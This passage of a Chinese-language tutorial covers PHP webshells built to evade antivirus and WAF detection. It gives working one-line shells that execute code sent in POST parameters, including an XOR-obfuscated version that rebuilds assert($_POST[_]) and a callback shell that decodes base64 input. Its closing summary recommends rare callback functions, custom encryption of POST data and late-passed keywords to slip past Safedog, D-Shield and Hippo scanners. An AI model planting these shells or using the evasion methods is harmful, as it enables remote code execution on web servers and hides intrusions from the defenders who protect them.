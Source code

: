 ```php
$a($_POST[x]);
?>
```
## 2.8. 去字符特征
### 2.8.1. 利用异或、编码等方式
```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```
### 2.8.2. 利用正则匹配字符
### 2.8.3. 利用 POST 包获取关键参数执行
```php
<?php
$decrpt = $_POST['x'];
$arrs = explode("|", $decrpt)[1];
$arrs = explode("|", base64_decode($arrs));
call_user_func($arrs[0],$arrs[1]);
?>
```
# 3. 总结
* 对于安全狗杀形，d 盾杀参的思路来绕过。生僻的回调函数, 特殊的加密方式, 以及关键词的后传入都是不错的选择。
* 对于关键词的后传入对免杀安全狗，d 盾，河马 等等都是不错的，后期对于菜刀的轮子，也要走向高度的自定义化
* 用户可以对传出的 post 数据进行自定义脚本加密，再由 webshell 进行解密获取参数，那么以现在的软 WAF 查杀能力几乎为 0，安全软件也需要与时俱进了。
